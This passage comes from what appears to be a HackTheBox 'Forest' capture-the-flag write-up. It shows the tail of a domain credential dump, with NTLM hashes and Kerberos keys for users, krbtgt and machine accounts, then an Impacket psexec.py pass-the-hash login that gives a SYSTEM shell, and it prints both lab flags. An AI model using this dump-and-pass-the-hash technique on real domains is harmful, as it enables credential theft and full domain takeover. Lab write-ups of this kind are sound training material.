htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
shiro:9601:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:14ba615ec60f1bff7b6d1230e00268d8:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
krbtgt:des-cbc-md5:9dd5647a31518ca8
htb.local\HealthMailboxc3d7722:aes256-cts-hmac-sha1-96:258c91eed3f684ee002bcad834950f475b5a3f61b7aa8651c9d79911e16cdbd4
htb.local\HealthMailboxc3d7722:aes128-cts-hmac-sha1-96:47138a74b2f01f1886617cc53185864e
htb.local\HealthMailboxc3d7722:des-cbc-md5:5dea94ef1c15c43e
htb.local\HealthMailboxfc9daad:aes256-cts-hmac-sha1-96:6e4efe11b111e368423cba4aaa053a34a14cbf6a716cb89aab9a966d698618bf
htb.local\HealthMailboxfc9daad:aes128-cts-hmac-sha1-96:9943475a1fc13e33e9b6cb2eb7158bdd
htb.local\HealthMailboxfc9daad:des-cbc-md5:7c8f0b6802e0236e
htb.local\HealthMailboxc0a90c9:aes256-cts-hmac-sha1-96:7ff6b5acb576598fc724a561209c0bf541299bac6044ee214c32345e0435225e
htb.local\HealthMailboxc0a90c9:aes128-cts-hmac-sha1-96:ba4a1a62fc574d76949a8941075c43ed
htb.local\HealthMailboxc0a90c9:des-cbc-md5:0bc8463273fed983
htb.local\HealthMailbox670628e:aes256-cts-hmac-sha1-96:a4c5f690603ff75faae7774a7cc99c0518fb5ad4425eebea19501517db4d7a91
htb.local\HealthMailbox670628e:aes128-cts-hmac-sha1-96:b723447e34a427833c1a321668c9f53f
htb.local\HealthMailbox670628e:des-cbc-md5:9bba8abad9b0d01a
htb.local\HealthMailbox968e74d:aes256-cts-hmac-sha1-96:1ea10e3661b3b4390e57de350043a2fe6a55dbe0902b31d2c194d2ceff76c23c
htb.local\HealthMailbox968e74d:aes128-cts-hmac-sha1-96:ffe29cd2a68333d29b929e32bf18a8c8
htb.local\HealthMailbox968e74d:des-cbc-md5:68d5ae202af71c5d
htb.local\HealthMailbox6ded678:aes256-cts-hmac-sha1-96:d1a475c7c77aa589e156bc3d2d92264a255f904d32ebbd79e0aa68608796ab81
htb.local\HealthMailbox6ded678:aes128-cts-hmac-sha1-96:bbe21bfc470a82c056b23c4807b54cb6
htb.local\HealthMailbox6ded678:des-cbc-md5:cbe9ce9d522c54d5
htb.local\HealthMailbox83d6781:aes256-cts-hmac-sha1-96:d8bcd237595b104a41938cb0cdc77fc729477a69e4318b1bd87d99c38c31b88a
htb.local\HealthMailbox83d6781:aes128-cts-hmac-sha1-96:76dd3c944b08963e84ac29c95fb182b2
htb.local\HealthMailbox83d6781:des-cbc-md5:8f43d073d0e9ec29
htb.local\HealthMailboxfd87238:aes256-cts-hmac-sha1-96:9d05d4ed052c5ac8a4de5b34dc63e1659088eaf8c6b1650214a7445eb22b48e7
htb.local\HealthMailboxfd87238:aes128-cts-hmac-sha1-96:e507932166ad40c035f01193c8279538
htb.local\HealthMailboxfd87238:des-cbc-md5:0bc8abe526753702
htb.local\HealthMailboxb01ac64:aes256-cts-hmac-sha1-96:af4bbcd26c2cdd1c6d0c9357361610b79cdcb1f334573ad63b1e3457ddb7d352
htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
shiro:aes256-cts-hmac-sha1-96:0b523a512a30f5d123808655c010d9aafd6834a7db10e2941259f927f156a723
shiro:aes128-cts-hmac-sha1-96:c890037d2f0a04176faefbfc3486a50c
shiro:des-cbc-md5:5b80c173688a97df
FOREST$:aes256-cts-hmac-sha1-96:3a92bebc9c41101da30553cd01c8c9719a79c4a36bc640abe428792edfadd281
FOREST$:aes128-cts-hmac-sha1-96:75891b522547c5fa59383a5023ad52a6
FOREST$:des-cbc-md5:5d3de3a7bae0ad4f
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up... 
```

Finally, we can use `Impacket`’s `psexec.py` to pass the hash and connect to the domain! OwO

```powershell
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file FZDywpmt.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service OUvs on 10.10.10.161.....
[*] Starting service OUvs.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd Users

C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is 61F2-A88F

 Directory of C:\Users

09/22/2019  04:02 PM    <DIR>          .
09/22/2019  04:02 PM    <DIR>          ..
09/18/2019  10:09 AM    <DIR>          Administrator
11/20/2016  07:39 PM    <DIR>          Public
09/22/2019  03:29 PM    <DIR>          sebastien
09/22/2019  04:02 PM    <DIR>          svc-alfresco
               0 File(s)              0 bytes
               6 Dir(s)  10,432,155,648 bytes free

C:\Users>type svc-alfresco\Desktop\user.txt
812afe6e13c2ff41d9c7020f94f58f80

C:\Users>type Administrator\Desktop\root.txt
49607d808dda27f4807a9906e1507cb2
```

